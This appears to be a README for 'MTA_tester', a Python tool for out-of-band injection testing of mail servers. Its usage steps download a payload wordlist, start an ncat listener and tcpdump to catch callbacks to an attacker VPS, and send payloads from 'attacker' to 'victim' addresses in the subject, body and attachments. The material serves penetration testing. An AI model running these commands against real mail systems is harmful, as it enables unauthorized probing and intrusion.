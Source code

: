 # MTA_tester
Mail Transfer Agent OOB tester.

# WHY?
Swaks could not handle the the payloads.
Additionally, to have a template for interacting with SMTP using Python.

# USAGE
* Set your VPS IP and DOMAIN COLLABORATOR to prepare a wordlist:
```
export vps_ip=
export domain_collab=
wget https://raw.githubusercontent.com/Karmaz95/crimson/master/words/exp/OOB
cat OOB|sed "s/domain_collab/$domain_collab/g"|sed "s/vps_ip/$vps_ip/g">oob.txt && rm OOB
```
* Run netcat listener in the second terminal:
```
sudo ncat -nklvp 80
```
* In the third terminal window start tcpdump:
```
sudo tcpdump icmp | tee -a tcpdump_oob.txt
``` 

### TESTING SUBJECT HEADER
```
python MTA_tester.py -f "attacker@smtp.vps.com" -t "victim@gmail.com" -s "smtp.vps.com:25" -w oob.txt -i subject
```
### TESTING BODY
```
python MTA_tester.py -f "attacker@smtp.vps.com" -t "victim@gmail.com" -s "smtp.vps.com:25" -w oob.txt -i body
```
### TESTING FILE NAME
```
python MTA_tester.py -f "attacker@smtp.vps.com" -t "victim@gmail.com" -s "smtp.vps.com:25" -w oob.txt -i filename
```
### TESTING FILE BODY
```
python MTA_tester.py -f "attacker@smtp.vps.com" -t "victim@gmail.com" -s "smtp.vps.com:25" -w oob.txt -i filebody
```
